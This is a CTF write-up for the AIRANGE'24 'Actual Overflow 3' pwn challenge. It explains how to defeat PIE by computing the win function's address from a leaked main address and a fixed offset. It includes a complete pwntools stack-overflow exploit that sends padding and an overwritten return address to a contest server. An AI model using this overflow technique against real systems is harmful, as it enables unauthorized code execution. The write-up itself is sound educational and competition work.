 ```yaml
---
title: AIRANGE'24 - Pwn - Actual Overflow 3
date: '2024-04-17'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'pwntools', 'overflow']
draft: false
summary: Return to win function through one given address and pie enabled
---
```


## Challenge Description

I gave you the function back, but some mitigations were enabled, can you bypass those?

[Download](https://airange.online/files/36f153c67108a494716a3145ad6ac150/actual_overflow_3.tar?token=eyJ1c2VyX2lkIjo0NSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzR9.Zh_uAQ.1XvwELSsvb_RWacfHV5k6Fmsn8c)

## Solution

![Screenshot](/static/images/overflow3/3.png)

In this challenge the pie and nx is enabled which means that every time a binary is executed it will generate the random address of every instruction in binary. BUT are those really random???

NO they are not, there is a a thing called as offset(the distance between any two function or distance of base of binary to that function) so it never changes.
WHY??????????
Because the distance of one symbol to another symbol will never change, because lets say you have one guy named ali standing 1 meter away from origin and a guy named haris standing at 2 meter from origin so regardless of their address they will always be there, that's how execution work.

Well it's just the base address that is random anything except that is an addition of offset in that address.

***base address + offset = function address***

 so if we know one address we can calculate it’s offset to another function and every time a binary is executed we just add that offset in that SO randomly generated offset.

***win address = address (+ or -) offset*** 

Here’s how i calculated offset between main and win function system call.

![Screenshot](/static/images/overflow3/4.png)

$$
0x5555555552bb - 0x0000555555555253 = 0x68
$$

$$
0x68 =104
$$

**EXPLOIT:**

```python
from pwn import *

# Define remote host and port
remote_host = '143.198.227.172'  # Replace with the actual remote host IP address
remote_port = 32778        # Replace with the actual remote port number

# Establish connection to remote server
p = remote(remote_host, remote_port)

# Receive main address
p.recvuntil(b'main @ ')
main_addr = p.recvuntil(b'\n', drop=True).decode()
log.info(f"Main function address: {main_addr}")

# Calculate the win function offset (replace it with the actual offset)
offset = 104  # replace it with the actual offset between main and win function

# Calculate win function address
win_addr = int(main_addr, 16) - offset
win_addr = p64(win_addr)

# Craft payload
payload = (b'A' * 264)  # Offset to return address
payload += win_addr     # Overwrite return address with the address of the win() function

# Send payload
p.sendline(payload)
p.recvline()
# Receive and print output
print(p.recvall())

# Close connection
p.close()
```

![Screenshot](/static/images/overflow3/5.png)
